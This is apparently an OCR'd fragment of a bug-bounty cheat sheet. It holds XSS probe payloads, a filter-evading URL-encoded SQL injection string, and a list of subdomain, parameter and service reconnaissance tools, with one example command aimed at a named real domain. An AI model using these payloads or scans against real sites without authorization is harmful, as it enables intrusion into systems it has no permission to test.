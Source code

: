```
		></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))
		</SCRIPT>

		“ onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

&#x20;**for SQL injection used URL encode**

```
2. /*!50000%75%6e%69on*/%73%65%6cect 1,2,3,4,...                                     
```

#### **&#x20;Personal Recommended tools (Left to Right Priority):-** ####
&#x20;**for subdomains**


1. Subfinderv2, Amass, Sublister, crtsh   


&#x20;**for Finding Parameters**

```
2. Arjun, ParamSpider, Parameth 
ex: for paramspider:- python3 paramspider.py --domain healthifyme.com --exclude woff,css,js,png,svg,php,jpg --output healthifyme.txt
```

&#x20;**for Separating https & http**


3. httpx(With Title), httprobe


&#x20;**for Subdomains,cloud Services subdomains in js files, Use the Shannon Entropy**


4. SubDomainizer
5.Link Discovery by GoSpider|Hakrawler|Burp Suite Pro & use advance scope as keyword 'Twitch'


&#x20;**Juicy Domains by Google,Crtsh,WayBackMachine**

```
6. SubDomain Scraping
	ex:- site:domain.com -maindomain.com -otherdomain.com (subtract main domain)
```

&#x20;**by shodan scraped subdomains**


7. Shosubgo 


&#x20;**for Subdomain Bruting**


8. Amass, ShuffleDNS, commonspeak2


&#x20;**Service Scanning**


9. brutespray                            
